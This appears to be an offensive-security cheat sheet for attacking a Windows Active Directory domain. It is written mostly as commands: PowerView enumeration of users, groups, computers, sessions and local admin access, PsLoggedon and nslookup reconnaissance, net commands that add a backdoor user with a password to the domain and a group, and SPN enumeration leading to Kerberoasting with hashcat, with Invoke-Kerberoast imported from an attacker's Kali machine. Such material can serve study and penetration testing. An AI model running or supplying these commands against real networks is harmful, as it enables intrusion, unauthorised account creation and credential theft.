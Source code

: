 ```powershell
> Import-Module .\PowerView.ps1

Enumerate some details about the OS:
> Get-NetDomain
> Get-NetComputer
> Get-NetComputer | select operatingsystem,dnshostname

Enumerate all users details 
> Get-NetUser

Enumerate only users names
> Get-NetUser | select cn

Enumerate users who changed password last
> Get-NetUser | select cn,pwdlastset,lastlogon

Enumerate the Group members
> Get-NetGroup "GROUP_NAME" | select member

Enumerate current user has administrative permissions on any computers in the domain
> Find-LocalAdminAccess

Enumerate loggedin users
syntax: Name.corp.com
> Get-NetSession -ComputerName <Name>
> Get-NetSession -ComputerName <Name> -Verbose

```
### PsLoggedon
```powerhell
# To see user logons at remote system of a domain(external tool)
.\PsLoggedon.exe \\<computername>
```

Finding IP of particular servers:
```powershell
nslookup dc01
```
```powershell
nslookup <server_name>
```
### Add User to Domain and a Group
```powershell
PS> net user kullai kali@116 /add /domain

PS> net group "Group name" /add kullai
```
#### Enumerate the SPN's and do kerberosting: [hashcat : -m 13100]
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
Import the **Invoke-Kerberost.ps1** from our kali.. 
